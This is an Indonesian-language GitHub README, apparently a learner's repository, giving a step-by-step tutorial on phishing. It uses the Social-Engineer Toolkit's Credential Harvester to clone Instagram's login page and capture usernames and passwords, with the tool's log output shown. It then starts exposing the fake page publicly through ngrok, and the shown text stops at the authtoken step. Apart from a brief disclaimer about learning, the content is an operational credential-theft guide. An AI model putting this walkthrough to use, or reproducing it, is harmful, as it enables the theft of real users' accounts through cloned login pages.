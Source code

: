 # ngrokxwebphising by Li3N4X
Ini adalah repository pertama saya di github. Saya bermaksud untuk membuat dokumentasi saat saya belajar *Social Engineering*.
Tunneling web phising menggunakan ngrok. Saya bermaksud untuk berbagi ilmu dan pemahaman dalam maksud dan tujuan untuk belajar dan tidak menyalahgunakanhal yang sudah saya pelajari, karena saya sadar hal ini dapat berbahaya dan dapat disalahgunakan ditangan orang jahat/kriminal. Jika ada, entah siapapun yang melakukan tindakan perusakan/cybercrime yang disebabkan dari pembelajaran tutorial yang saya buat, 
Dengan tegas kami saya tidak bertanggung jawab kepada yang bersangkutan
Saya percaya bahwa tidak mungkin membela diri dari peretas tanpa mengetahui peretasan itu dilakukan.

Tujuan utama dari kegiatan ini adalah untuk mengetahui bagaimana cara kita bisa melakukan sebagai berikut :
- Mengenal Web Phising
- Tunneling
- Ngrok
- Step by step cara

Tools yang saya gunakan : 
- ngrok
- setoolkit

Yang perlu disiapkan terlebih dahulu :
- Akun ngrok
- Install ngrok
- Install setoolkit
- Bahan login page sebuah website

## Tahap Pertama
Kita akan menggunakan dan mencoba bahan yang kita siapkan sudah siap untuk digunakan. 


```
sudo su
setoolkit
```
masuk sebagai super user di linux. Saya menggunakan Kali Linux
lalu buka setoolkit yang sudah disiapkan.
Disini saya tidak akan menjelaskan bagaimana cara instalasi `setoolkit`, karena kali linux sudah menyiapkan itu semua.

```

           ..######..########.########
           .##....##.##..........##...
           .##.......##..........##...
           ..######..######......##...
           .......##.##..........##...
           .##....##.##..........##...
           ..######..########....##...  

[---]        The Social-Engineer Toolkit (SET)         [---]
[---]        Created by: David Kennedy (ReL1K)         [---]
                      Version: 8.0.3
                    Codename: 'Maverick'
[---]        Follow us on Twitter: @TrustedSec         [---]
[---]        Follow me on Twitter: @HackingDave        [---]
[---]       Homepage: https://www.trustedsec.com       [---]
        Welcome to the Social-Engineer Toolkit (SET).
         The one stop shop for all of your SE needs.

   The Social-Engineer Toolkit is a product of TrustedSec.

           Visit: https://www.trustedsec.com

   It's easy to update using the PenTesters Framework! (PTF)
Visit https://github.com/trustedsec/ptf to update all your tools!


 Select from the menu:

   1) Social-Engineering Attacks
   2) Penetration Testing (Fast-Track)
   3) Third Party Modules
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About

  99) Exit the Social-Engineer Toolkit

```
Ini adalah menu yang dapat kita pilih saat pertama kali membuka setoolkit.
mari kita berfokus pada opsi - opsi berikut
```
 Select from the menu:

   1) Social-Engineering Attacks
   2) Penetration Testing (Fast-Track)
   3) Third Party Modules
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About

  99) Exit the Social-Engineer Toolkit
```
**Kita pilih opsi nomor 1 Social-Engineering Attacks, lalu akan keluar opsi berikutnya seperti berikut**
```
 Select from the menu:

   1) Spear-Phishing Attack Vectors
   2) Website Attack Vectors
   3) Infectious Media Generator
   4) Create a Payload and Listener
   5) Mass Mailer Attack
   6) Arduino-Based Attack Vector
   7) Wireless Access Point Attack Vector
   8) QRCode Generator Attack Vector
   9) Powershell Attack Vectors
  10) Third Party Modules

  99) Return back to the main menu.
```
Kalau diperhatikan dari pilihan yang diberikan, kita dapat mengakses semua opsi, namun akan berbahaya ketika digunakan tanpa etika dan tanpa tanggung jawab
**kita pilih nomor 2 Website Attack Vectors, lalu akan keluar opsi selanjutnya**

```
The HTA Attack method will allow you to clone a site and perform powershell injection through HTA files which can be used for Windows-based powershell exploitation through the browser.

   1) Java Applet Attack Method
   2) Metasploit Browser Exploit Method
   3) Credential Harvester Attack Method
   4) Tabnabbing Attack Method
   5) Web Jacking Attack Method
   6) Multi-Attack Web Method
   7) HTA Attack Method

  99) Return to Main Menu
```
**Kita pilih nomor 3 Credential Harvester Attack Method, lalu akan keluar seperti ini**
```
   1) Web Templates
   2) Site Cloner
   3) Custom Import

  99) Return to Webattack Menu
```
**Saya akan mempraktekkan nomor 2 Site Cloner**

```
##marked
Ujung Tahap Pertama!
set:webattack> IP address for the POST back in Harvester/Tabnabbing [ip.addr.ess.kamu]:
```
**Disini karena untuk mencoba terlebih dahulu, kita lewati tahap ini dengan menekan `Enter` langsung**
```
set:webattack> Enter the url to clone:ur url here!
```
Masukkan website yang halaman loginnya ingin kita clone sebagai media phising.
Sebagai contoh kita akan menggunakan `https://www.instagram.com/accounts/login/`
lalu `Enter`

```
The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.                                                                                              
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80                                                                     
[*] Information will be displayed to you as it arrives below: 
```
**Yup! ini sudah jadi. coba kalian masuk kedalam ip address yang tertera disini `set:webattack> IP address for the POST back in Harvester/Tabnabbing [ip.addr.ess.kamu]:`**

**ya benar, halaman login instagram sudah ada dan persis mirip sekali, coba saja kalian masukkan username dan pass apa saja.. nanti kalian akan menerima trigger dari setoolkit**
```
[*] Information will be displayed to you as it arrives below:                                                      
127.0.0.1 - - [07/Apr/2023 13:14:57] "GET / HTTP/1.1" 200 - #baris ini menandakan kalau alamat IP kalian di 'Klik' dan di akses
127.0.0.1 - - [07/Apr/2023 13:15:06] "GET / HTTP/1.1" 200 -
[*] WE GOT A HIT! Printing the output:
PARAM: ReturnUrl=/                                                                                                 
POSSIBLE USERNAME FIELD FOUND: Username=wicak   #sebagai contoh, saya memasukkan uname dan pass serupa                                                                   
POSSIBLE PASSWORD FIELD FOUND: Password=wicak                                                                      
PARAM: __RequestVerificationToken=CfDJ8B243YWE8BRKugCLYHGbxpuq-BRDJ7001cLwguetYpvI4NFHvm8AYv14MQKQnL-uQWd1oRA_NognBtwsICa_FREBtKwEam3VP1VppEqkMvo3JOUT2U_RPm2YvKXsoYO1njr32n3qp3-DlgHf1fKDorM                                         
PARAM: RememberMe=false                                                                                            
[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT. 
```
**Yap! begitu simplenya**

## Tahap Kedua
kita akan mulai menggunakan `ngrok`. Kita akan coba memfungsikan ngrok sebagai media `tunneling` yang akan membuat website palsu kita pada tahap pertama tadi bisa diakses oleh network publik.
Note : 
> pastikan kamu sudah memiliki akun di ngrok, kita akan menggunakan authtoken dari ngrok untuk memulainya


![Alt text](gambar/ngrok auth.jpeg "ngrok")

